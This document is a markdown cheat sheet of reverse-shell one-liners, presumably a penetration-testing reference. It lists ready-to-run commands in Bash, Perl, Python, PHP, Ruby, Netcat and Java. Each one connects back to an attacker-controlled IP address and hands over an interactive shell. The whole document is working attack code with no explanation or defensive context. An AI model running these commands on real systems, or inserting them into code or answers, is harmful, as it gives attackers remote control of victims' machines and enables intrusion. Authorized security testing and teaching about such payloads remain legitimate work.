 # Reverse Shell one-liners
### Bash
```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

### Perl
```perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

### Python
```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

### PHP
```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```
``` <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'"); ?> ```

### Ruby
```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

### Netcat
With `-e` argument
```nc -e /bin/sh 10.0.0.1 1234```

Without `-e` argument
```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

### Java
```r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()```
